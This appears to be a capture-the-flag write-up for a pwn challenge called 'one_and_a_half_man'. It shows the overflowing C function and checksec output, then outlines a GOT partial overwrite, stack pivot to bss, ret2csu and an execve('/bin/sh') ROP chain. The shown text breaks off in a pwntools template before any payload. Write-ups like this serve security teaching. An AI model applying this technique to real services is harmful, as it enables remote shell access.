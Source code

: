 ```cpp=
void vuln() {
    char buff[10];
    read(0, buff, 0xaa);
}
```
There is a simple buffer overflow.
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
No Pie and Partial Relro :face_vomiting:

###### exploit
```
There is a syscall resides inside read.
So change read got last byte to make it point at syscall. And then Just control registers,
and some advanced ROP stuff, there isn't enough space for whole ROP chain so
first pivot the stack to bss.
Read another ROP chain there and continue from there.
Ret2csu to control the RDX register.
To set RAX = 0x3b
I make a read syscall and send exact 0x3b number of bytes. and do 'execve' -> binsh
```
#### Here is the whole exploit.

```python

#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host challenges.ctfd.io --port 30096 ./bof
from pwn import *
#import roputils as we
# Set up pwntools for the correct architecture
elf = context.binary = ELF('./one_and_a_half_man')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'one-and-a-half-man.3k.ctf.to'
port = int(args.PORT or 8521)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([elf.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
```